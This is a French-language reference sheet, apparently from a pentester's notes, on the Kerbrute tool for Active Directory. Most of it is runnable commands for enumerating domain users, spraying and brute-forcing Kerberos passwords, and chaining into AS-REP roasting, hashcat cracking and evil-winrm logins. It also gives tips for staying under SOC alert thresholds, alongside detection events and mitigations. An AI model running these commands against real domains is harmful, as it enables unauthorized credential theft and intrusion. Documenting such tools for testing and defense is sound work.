

# Kerbrute — Active Directory & Windows

> [!info] **En 1 phrase**
> Kerbrute est un outil Go d'**énumération et de brute-force Kerberos** : il valide des noms d'utilisateurs du domaine (**sans aucun compte**) et teste des mots de passe, avec **très peu de bruit**.

---

## Overview

| Champ | Détail |
|---|---|
| **Nom** | Kerbrute |
| **Type** | Énumération / brute-force Kerberos (AS-REQ) |
| **Licence** | Apache-2.0 |
| **Langage** | Go (binaire autonome) |
| **Développeur** | ropnop |
| **Dépositaires** | `github.com/ropnop/kerbrute` |
| **Installation** | Binaires précompilés (releases GitHub) ou `go install github.com/ropnop/kerbrute/v2@latest` |
| **Pré-requis** | IP d'un contrôleur de domaine joignable sur TCP/UDP 88, aucune session ni compte valide |
| **Plateformes** | Linux, Windows, macOS (binaires statiques) |
| **Objectif** | Énumérer les comptes AD sans se faire verrouiller, puis password spraying / brute-force Kerberos |

---

## Concept

Kerbrute exploite une différence de réponse du **KDC Kerberos** lors de la requête **AS-REQ** (pré-authentification) : la réponse diffère selon que le compte existe ou non. On peut donc **énumérer les comptes du domaine sans aucun compte valide** (avec `userenum`) — ce qui ne déclenche **pas** de verrouillage — puis faire un **password spraying** (`passwordspray`, 1 mot de passe sur tous les comptes) ou un brute-force ciblé (`bruteuser`, `bruteforce`). Dans un pentest AD, il se place en tout début de la phase d'attaque : avant même d'avoir un foothold, il fournit la liste des comptes qui alimentera ensuite Impacket (GetNPUsers, GetUserSPNs), Rubeus ou un spray via hydra. Son trafic est du pur Kerberos (TCP/UDP 88), discret comparé aux connexions SMB. Point clé : il ne requiert **ni outil d'administration, ni droits particuliers**, juste une IP de contrôleur de domaine joignable — d'où son efficacité en test black-box sur un domaine.



---

## Concepts fondamentaux

| Concept | Rôle dans Kerbrute |
|---|---|
| **AS-REQ / AS-REP** | Requête de TGT : le KDC répond différemment selon que le compte existe (pré-authentification requise ou non) |
| **KDC_ERR_C_PRINCIPAL_UNKNOWN** | Erreur renvoyée pour un compte inexistant → base de l'énumération |
| **KDC_ERR_PREAUTH_REQUIRED** | Compte existant avec pré-authentification → l'AS-REQ a atteint le KDC |
| **Verrouillage de compte** | `userenum` ne tente **aucune** authentification → aucun lockout possible |
| **Password spraying** | Un seul mot de passe testé sur de nombreux comptes (réduit le risque de verrouillage) |
| **Brute-force** | Beaucoup de mots de passe sur un compte (bruyant, risqué) |
| **TCP/UDP 88** | Port du service Kerberos (KDC) |
| **TGT** | Ticket Granting Ticket : obtenir un TGT valide = compte compromis |
| **Convention de nommage AD** | Les listes `prenom.nom` alimentent `userenum` (nécessite souvent une source de noms : annuaire, LinkedIn, email) |

---

## Installation

### Téléchargement

```bash
# Binaires précompilés (releases GitHub) — Linux / Windows / macOS
# https://github.com/ropnop/kerbrute/releases
chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum -h

# Ou via Go (binaire compilé localement)
go install github.com/ropnop/kerbrute/v2@latest

# Vérification
./kerbrute_linux_amd64 -h
```

> [!note] À vérifier
> La version stable est la **1.0.3** (décembre 2019) ; le dépôt reste maintenu mais peu actif. Vérifier la dernière release sur le GitHub pour la gestion des flags (`--dc` vs `-dc`).

---

## Configuration

Kerbrute est 100 % CLI : il n'y a ni fichier de configuration ni variable d'environnement. Le seul « réglage » est le choix des **flags de discrétion** (threads, délai) et la liste d'utilisateurs.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `-d <domaine>` | Domaine cible | `corp.local` | Définit le realm Kerberos | `-d corp.local` |
| `--dc <IP>` | Contrôleur de domaine | IP du KDC | Endpoint des requêtes Kerberos | `--dc 192.168.1.10` |
| `-t <N>` | Nombre de threads | entier (défaut 10) | Vitesse vs bruit/détection | `-t 2` |
| `--delay <ms>` | Pause entre requêtes | millisecondes | Ralentit le spray, passe sous les seuils | `--delay 200` |
| `-v` | Verbeux | flag | Affiche les succès (couleur) et le détail | `-v` |
| `-o <fichier>` | Fichier de sortie | chemin | Log des résultats pour exploitation | `-o results.txt` |
| `--downgrade` | Force Kerberos v4 ancien | flag | Utile sur les vieux DC | rarement utile |

> [!note] À vérifier
> L'option `-o <fichier>` d'écriture des résultats est disponible selon les versions : vérifier avec `kerbrute passwordspray -h`.

---

## Architecture interne

- **Langage** : Go, un seul binaire statique sans dépendances externes (facile à transporter, aucune installation).
- **Implémentation Kerberos** : Kerbrute implémente lui-même le client Kerberos (encodage ASN.1 DER, chiffrement RC4/AES) — pas de dépendance à un runtime Python ou à des bibliothèques système.
- **Moteur d'énumération** : `userenum` envoie des AS-REQ sans pré-authentification (`PA-ENC-TIMESTAMP` absent) : le KDC répond `PREAUTH_REQUIRED` si le compte existe, `C_PRINCIPAL_UNKNOWN` sinon.
- **Moteur de test de mot de passe** : `passwordspray`/`bruteuser`/`bruteforce` effectuent la pré-authentification réelle (`PA-ENC-TIMESTAMP`) pour vérifier le secret.
- **Pipeline de sortie** : les résultats sont colorés (vert = succès, rouge = échec) et peuvent être écrits dans un fichier avec `-o`.
- **Sous-commandes** : `userenum`, `passwordspray`, `bruteuser`, `bruteforce`, `verify` — toutes partagent les mêmes options de connexion (`-d`, `--dc`, `-t`).

---

## Commandes

### Commandes principales

```bash
# Énumération des utilisateurs (aucune preauth nécessaire)
./kerbrute userenum -d corp.local --dc 192.168.1.10 users.txt

# Password spraying : 1 mot de passe sur tous les comptes
./kerbrute passwordspray -d corp.local --dc 192.168.1.10 users.txt 'Summer2026!'

# Brute-force sur un compte précis
./kerbrute bruteuser -d corp.local --dc 192.168.1.10 -t 10 alice rockyou.txt

# Brute-force user:pass (fichier de combinaisons)
./kerbrute bruteforce -d corp.local --dc 192.168.1.10 -t 10 combo.txt

# Vérification d'un seul compte (compte existant ?)
./kerbrute verify -d corp.local --dc 192.168.1.10 bob
```

| Option | Effet |
|---|---|
| `-d <domaine>` | **domaine** cible (`corp.local`) — à ne pas confondre avec le DC |
| `--dc <IP>` | **contrôleur de domaine** (alias `-dc` dans les anciennes versions/docs) |
| `-t <N>` | nombre de **threads** (défaut 10, reste discret) |
| `-v` | sortie verbeuse |
| `userenum` | énumère les comptes (ne verrouille pas) |
| `passwordspray` | un mot de passe sur beaucoup de comptes |
| `bruteuser` | beaucoup de mots de passe sur un compte |
| `bruteforce` | fichier `user:password` |
| `verify` | vérifie qu'un compte existe sans tester de mot de passe |
| `--delay <ms>` | pause entre chaque requête (spray plus lent mais plus discret) |

### Réglages discrets

- `-t 1` : un seul thread pour minimiser le bruit.
- `--delay 200` : attendre 200 ms entre chaque requête.
- Combiner un spray court sur une petite fenêtre temporelle pour passer sous les seuils d'alerte.

### Quelle commande choisir ?

| Objectif | Commande |
|---|---|
| Lister les comptes valides du domaine | `userenum` |
| Tester 1 mot de passe sur tous les comptes | `passwordspray` |
| Tester beaucoup de mots de passe sur 1 compte | `bruteuser` |
| Tester des paires `user:pass` préfaites | `bruteforce` |
| Vérifier l'existence d'un compte isolé | `verify` |

### Commandes avancées

```bash
# Énumération avec écriture des résultats dans un fichier
./kerbrute userenum -d corp.local --dc 192.168.1.10 -o valid_users.txt users.txt

# Spray ultra-discret : 1 thread + 200 ms de pause
./kerbrute passwordspray -d corp.local --dc 192.168.1.10 -t 1 --delay 200 users.txt 'Autumn2026!'

# Brute-force verbeux pour visualiser les succès
./kerbrute bruteuser -d corp.local --dc 192.168.1.10 -v alice rockyou.txt
```

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-d <domaine>` | Domaine (realm Kerberos) | `-d corp.local` | Basic |
| `--dc <IP>` | Contrôleur de domaine | `--dc 192.168.1.10` | Basic |
| `-t <N>` | Threads (défaut 10) | `-t 1` | Basic |
| `-v` | Sortie verbeuse | `-v` | Basic |
| `-o <fichier>` | Écrire les résultats | `-o results.txt` | Intermediate |
| `--delay <ms>` | Pause entre requêtes | `--delay 200` | Intermediate |
| `--downgrade` | Kerberos v4 legacy | `--downgrade` | Advanced |
| `userenum` | Énumération des comptes | `kerbrute userenum ...` | Basic |
| `passwordspray` | Spray d'un mot de passe | `kerbrute passwordspray ... 'Mdp!'` | Basic |
| `bruteuser` | Brute-force sur un compte | `kerbrute bruteuser ... alice wordlist` | Intermediate |
| `bruteforce` | Paires `user:pass` | `kerbrute bruteforce ... combo.txt` | Intermediate |
| `verify` | Vérifier un compte | `kerbrute verify -d corp.local --dc <ip> bob` | Basic |

> [!tip] Options les plus utiles au quotidien
> `-d` + `--dc` pour viser le bon KDC, `-t 2` et `--delay` pour rester discret, `-v` pour identifier les succès.

---

## Exemples pratiques

### Beginner

```bash
# Énumérer les comptes à partir d'une liste de noms
./kerbrute userenum -d corp.local --dc 192.168.1.10 users.txt

# Vérifier un compte unique
./kerbrute verify -d corp.local --dc 192.168.1.10 alice
```

### Intermediate

```bash
# Spray : 1 mot de passe sur tous les comptes validés
./kerbrute passwordspray -d corp.local --dc 192.168.1.10 users.txt 'Summer2026!'

# Énumération avec résultats sauvegardés
./kerbrute userenum -d corp.local --dc 192.168.1.10 -o valid_users.txt users.txt
```

### Advanced

```bash
# Spray discret avec délai
./kerbrute passwordspray -d corp.local --dc 192.168.1.10 -t 2 --delay 300 users.txt 'Winter2026!'

# Brute-force ciblé verbeux sur un compte de service
./kerbrute bruteuser -d corp.local --dc 192.168.1.10 -v -t 5 svc_backup /usr/share/wordlists/rockyou.txt
```

### Expert

```bash
# Chaîne complète : userenum → fichier → AS-REP Roast → cracking
./kerbrute userenum -d corp.local --dc 192.168.1.10 -o valid.txt users.txt
python3 GetNPUsers.py -dc-ip 192.168.1.10 -usersfile valid.txt 'corp.local/' -outputfile asrep.txt
hashcat -m 18200 asrep.txt rockyou.txt
```

---

## Workflow complet (scénario pas à pas)

Scénario : la convention de nommage `prenom.nom@corp.local` est connue.

1. **Générer la liste** de noms d'utilisateurs potentiels.
   ```bash
   for p in $(cat prenoms.txt); do echo "$p.nom" >> users.txt; done
   ```
2. **Énumérer** les comptes valides (aucune connexion, aucun lockout).
   ```bash
   ./kerbrute userenum -d corp.local --dc 192.168.1.10 users.txt -v
   ```
3. **Sprayer** un mot de passe par défaut probable sur les comptes validés.
   ```bash
   ./kerbrute passwordspray -d corp.local --dc 192.168.1.10 users.txt 'Summer2026!'
   ```
4. **Valider l'accès** au compte trouvé (Evil-WinRM, Impacket psexec).
   ```bash
   evil-winrm -i 192.168.1.50 -u alice -p 'Summer2026!'
   ```
5. **Développer** : récupérer un TGT avec `getTGT.py` ou continuer l'énumération avec BloodHound.

---

## Scénarios avancés

### Scénario 1 : Enchaînement userenum → AS-REP Roasting

Les comptes énumérés sans pré-authentification peuvent donner des hashes crackables.

```bash
./kerbrute userenum -d corp.local --dc 192.168.1.10 users.txt > valid_users.txt
python3 GetNPUsers.py -dc-ip 192.168.1.10 -usersfile valid_users.txt 'corp.local/' -outputfile asrep.txt
hashcat -m 18200 asrep.txt rockyou.txt
```

### Scénario 2 : Password spraying discret (faible nombre de tentatives par minute)

Réduire les threads et n'utiliser qu'un mot de passe par campagne pour limiter les logs.

```bash
./kerbrute passwordspray -d corp.local --dc 192.168.1.10 -t 2 users.txt 'Winter2026!'
```

### Scénario 3 : Brute-force ciblé sur un compte de service prometteur

Après l'énumération, forcer un seul compte à fort potentiel avec un dictionnaire (bruyant, à limiter).

```bash
./kerbrute bruteuser -d corp.local --dc 192.168.1.10 -t 5 svc_backup /usr/share/wordlists/rockyou.txt
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Énumération des comptes sans aucun credential (`userenum`) |
| Initial Access | Password spraying sur les comptes énumérés |
| Credential Access | Récolte d'un mot de passe via spray/brute-force, puis AS-REP Roasting |
| Préparation d'attaque | Alimenter GetNPUsers / GetUserSPNs / Rubeus avec la liste des comptes valides |
| Audit défensif | Tester la robustesse des politiques de mot de passe et de verrouillage |
| Black-box | Premier outil d'un test sans information interne (naming, domaines) |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Discovery | Account Discovery : Domain Account | T1087.002 | Énumère les comptes via les réponses du KDC | Événement 4768 répété, volume de TGT-REQ, erreurs Kerberos | Réduire la vitesse d'attaque (seuils), surveiller le trafic Kerberos |
| Credential Access | Brute Force : Password Guessing / Spraying | T1110.001 / T1110.003 | Teste les mots de passe via pré-authentification Kerberos | Événement 4771 (échecs de preauth), 4768/4776 répétés | Mots de passe robustes, verrouillage, MFA, alertes sur les échecs |
| Credential Access | Steal or Forge Kerberos Tickets : AS-REP Roasting | T1558.004 | Liste les comptes candidats puis roast | 4768/4769 suspects, comptes sans preauth | Désactiver DONT_REQ_PREAUTH, AES-only |
| Discovery | Remote System Discovery | T1018 | Identification des DC (KDC) | Trafic Kerberos vers des IP inhabituelles | Restreindre l'accès au port 88 |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Kerbrute est avant tout un outil de **Discovery** (T1087) et de **Credential Access** (T1110) ; il ne fait pas lui-même l'AS-REP Roast (c'est GetNPUsers/Rubeus).

## Defensive Security

| Élément | Analyse |
|---|---|
| **Signature principale** | Rafale de TGT-REQ (4768) ou d'échecs de pré-authentification (4771) depuis une seule IP |
| **Journal Windows** | Événement 4768 (TGT demandé), 4771 (échec preauth), 4776 (NTLM, si utilisé) |
| **Surveillance** | Seuils sur le volume de Kerberos par source, corrélation des codes d'erreur (`C_PRINCIPAL_UNKNOWN` en masse) |
| **Mesures de prévention** | Politique de verrouillage cohérente, mots de passe à forte entropie, MFA |
| **Réduction de la surface** | Supprimer les comptes inutilisés (moins de cibles), surveiller les comptes de service |
| **Outils de détection** | SIEM (corrélation 4768/4771), alerting sur le trafic 88, honeypot de comptes |

> [!tip] Bien comprendre ce que Kerbrute exploite
> Kerbrute exploite une **particularité du protocole Kerberos** (codes d'erreur du KDC) : on ne peut pas empêcher l'énumération par configuration, mais on peut la **rendre bruyante** et difficile (verrouillage, mots de passe robustes).

---

## Automatisation

| Tâche | Outil | Exemple de commande / code |
|---|---|---|
| Génération des listes de noms | Script bash / wordlist | `for p in $(cat prenoms.txt); do echo "$p.nom"; done > users.txt` |
| Énumération récurrente | cron | `0 2 * * * ./kerbrute userenum -d corp.local --dc 192.168.1.10 -o /var/log/kusers.txt users.txt` |
| Spray multi-mots de passe espacés | Boucle | `for p in 'Mdp1!' 'Mdp2!'; do ./kerbrute passwordspray ... users.txt "$p"; sleep 300; done` |
| Parsing des résultats | grep/awk | `grep -i 'VALID' results.txt` pour extraire les succès |
| Enchaînement avec roasts | Pipeline | `userenum -o valid.txt` puis `GetNPUsers.py -usersfile valid.txt` |

---

## Output et parsing

- **Sortie console** : couleurs (vert = compte valide / succès, rouge = échec), affichage du nombre de tentatives par seconde.
- **Fichiers** : avec `-o <fichier>`, Kerbrute écrit les résultats (utilisateurs valides, creds trouvés) pour exploitation ultérieure.
- **Parsing** : les fichiers produits sont du texte simple, manipulables avec `grep`/`awk`/`sort`.

```bash
# Exemple de parsing des résultats
grep -i 'VALID' valid_users.txt | awk '{print $NF}'
grep -iE 'SUCCESS|VALID' results.txt | tee found.txt
```

---

## Intégrations

| Outil | Usage dans l'écosystème Kerbrute |
|---|---|
| [[Outil - Impacket]] | Les comptes validés alimentent `GetNPUsers.py` (AS-REP), `GetUserSPNs.py` (Kerberoast), `psexec`/`wmiexec` (accès) |
| [[Outil - Rubeus]] | Les comptes validés servent pour le Kerberoasting / AS-REP Roasting côté Windows |
| [[Outil - Evil-WinRM]] | Valider l'accès d'un compte trouvé (login WinRM) |
| [[Outil - BloodHound]] | Énumération approfondie du domaine une fois un compte valide obtenu |
| [[Outil - hashcat]] | Cracker les hashes AS-REP (m 18200) obtenus après énumération |
| [[Outil - Hydra]] | Alternative pour du password spraying sur d'autres protocoles (SSH, RDP) |
| [[Outil - Nmap]] | Détection des DC (port 88/389/445) avant de cibler le KDC |

---

## Alternatives

| Alternative | Différence | Pour qui |
|---|---|---|
| **crackmapexec / netexec** | Énumération via SMB/RPC (autre surface, plus bruyante) | Validation de comptes avec d'autres protocoles |
| **GetNPUsers (Impacket)** | AS-REP Roasting direct (nécessite des noms candidats) | Attaques Kerberos avancées |
| **Nmap smb-enum-users** | Énumération par SMB (RID brute force), autre bruit | Complément réseau |
| **Rubeus brute** | Côté Windows, dans un contexte déjà compromis | Post-exploitation |

---

## Performance

| Facteur | Impact | Optimisation |
|---|---|---|
| Nombre de threads | Plus de threads = plus rapide mais plus bruyant | `-t 2` pour la discrétion |
| Taille des listes | Des milliers de noms = temps réel | Trier/dédoublonner les listes avant |
| Délai | `--delay` ralentit mais passe sous les seuils SOC | 200-500 ms selon le contexte |
| Latence du DC | Aller-retours vers le KDC | Cibler le DC le plus proche |

---

## Troubleshooting

| Problème | Cause | Solution | Vérification |
|---|---|---|---|
| `No DC hosts found` | Mauvais `--dc` ou domaine erroné | Vérifier l'IP du DC, la casse du domaine | `nmap -p88 <ip>` |
| Erreurs de résolution | `-d` et `--dc` inversés | `-d` = domaine, `--dc` = IP du contrôleur | `./kerbrute -h` |
| Aucun compte trouvé | Liste de noms trop courte / mauvaise convention | Élargir la liste, tester d'autres patterns | `-v` pour le détail |
| Bloqué par un firewall | Port 88 fermé | Vérifier la connectivité TCP/UDP 88 | `Test-NetConnection -Port 88` |
| Compte verrouillé après spray | Politique de verrouillage stricte | Espacer les tentatives, réduire les threads | Vérifier les événements 4740 |
| Sortie vide avec `-o` | Redirection + couleurs ANSI | Utiliser `-v` ou nettoyer les codes ANSI | `grep -a` sur le fichier |

---

## Sécurité de l'outil

- **Pas de stockage de credentials** : Kerbrute ne persiste rien localement (les mots de passe testés restent en mémoire/CLI).
- **Historique shell** : les mots de passe passés en argument peuvent apparaître dans l'historique → utiliser des scripts avec variables ou supprimer l'historique en lab.
- **Risque de lockout** : un brute-force mal réglé verrouille les comptes du domaine → toujours préférer un spray raisonnable.
- **Usage autorisé** : l'énumération de comptes est intrusive ; à ne réaliser que dans un cadre de test autorisé.
- **Données récoltées** : la liste des comptes valides est sensible → ne pas la partager ni la committer.

---

## Limitations

- **Kerberos uniquement** : ne fonctionne que sur les domaines avec KDC joignable (pas pour les environnements sans Kerberos).
- **Pas d'énumération avancée** : ne fournit que l'existence des comptes (pas les ACL, sessions, groupes).
- **Version ancienne** : le projet est peu maintenu (dernière release 1.0.3), quelques flags peuvent varier.
- **Bruit potentiel** : mal configuré (`-t 50`, brute-force admin), il déclenche lockout et alertes.
- **Pas de MFA support** : la pré-authentification Kerberos classique ne couvre pas les scénarios MFA.

---

## Cheatsheet

```text
# Énumération (aucun compte requis, aucun lockout)
kerbrute userenum -d corp.local --dc 192.168.1.10 users.txt
kerbrute userenum -d corp.local --dc 192.168.1.10 -o valid.txt users.txt
kerbrute verify -d corp.local --dc 192.168.1.10 alice

# Password spraying (1 mot de passe sur tous les comptes)
kerbrute passwordspray -d corp.local --dc 192.168.1.10 users.txt 'Summer2026!'
kerbrute passwordspray -d corp.local --dc 192.168.1.10 -t 2 --delay 200 users.txt 'Winter2026!'

# Brute-force
kerbrute bruteuser -d corp.local --dc 192.168.1.10 -t 5 alice rockyou.txt
kerbrute bruteforce -d corp.local --dc 192.168.1.10 combo.txt

# Chaîne vers AS-REP Roast
python3 GetNPUsers.py -dc-ip 192.168.1.10 -usersfile valid.txt 'corp.local/' -outputfile asrep.txt
hashcat -m 18200 asrep.txt rockyou.txt
```

---

## Quick reference

| Situation | Action immédiate |
|---|---|
| Énumérer les comptes sans credential | `kerbrute userenum -d corp.local --dc <ip> users.txt` |
| Tester un mot de passe sur tous les comptes | `kerbrute passwordspray -d corp.local --dc <ip> users.txt 'Mdp!'` |
| Forcer un seul compte | `kerbrute bruteuser -d corp.local --dc <ip> user wordlist` |
| Vérifier un compte | `kerbrute verify -d corp.local --dc <ip> alice` |
| Rester discret | `-t 2 --delay 200` |
| Exploiter les comptes sans preauth | `GetNPUsers.py -usersfile valid.txt` |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Événement 4768 : **TGT-REQ** répétés sur des comptes variés (userenum / spray) | Politique de **lockout**, seuils sur le volume de TGT-REQ |
| Événement 4771 : échecs de pré-authentification (brute-force de mot de passe) | Mots de passe robustes, surveiller les échecs Kerberos |
| Volume Kerberos (**TCP 88**) anormalement élevé depuis une IP | Corrélation SIEM, alertes sur le trafic Kerberos |
| Requêtes AS-REQ sans AS-REP réussies | Limiter les tentatives d'authentification, détection des enchaînements rapides |
| Erreur `KDC_ERR_C_PRINCIPAL_UNKNOWN` en rafale | Indicateur d'énumération : corréler les codes d'erreur Kerberos |
| Réponses `KDC_ERR_PREAUTH_REQUIRED` suivies d'échecs | Spray en cours sur des comptes avec preauth active |

---

## Tips & Pièges

> [!tip] **Discret** : `userenum` ne déclenche **pas** de verrouillage de compte. Fais d'abord l'énumération, puis un **password spray** (1 mdp sur tous les comptes) plutôt qu'un brute-force.

> [!tip] **Réutilise les listes** : la liste des comptes valides alimente directement Impacket (`GetNPUsers.py`, `GetUserSPNs.py`) et Rubeus pour les attaques Kerberos suivantes.

> [!tip] `-v` pour valider** : en sortie verbeuse, la couleur verte indique les comptes **valides** (existant + mot de passe bon), rouge les échecs. Utilise-la pour trier les résultats du spray.

> [!warning] **Piège** : `-d` = **domaine**, `-dc`/`--dc` = **contrôleur**. Inverser les deux (confusion fréquente avec le `-dc-ip` d'Impacket) donne des erreurs de résolution obscures.

> [!warning] **Piège** : un brute-force agressif (`-t 50` ou sur un seul compte admin) déclenche le **lockout** et **alarme le SOC**. Reste sur du spray et des threads modérés.

---

## References

- GitHub officiel : https://github.com/ropnop/kerbrute
- Blog de l'auteur (ropnop) : https://blog.ropnop.com/using-kerbrute-for-windows-active-directory-user-enumeration/
- Releases : https://github.com/ropnop/kerbrute/releases

**Liens :** [[Outil - Kerbrute]] | [[Outil - Impacket]] | [[Outil - Rubeus]] | [[Outil - Evil-WinRM]] | [[Outil - BloodHound]] | [[Outil - Hydra]] | [[Outil - Nmap]]

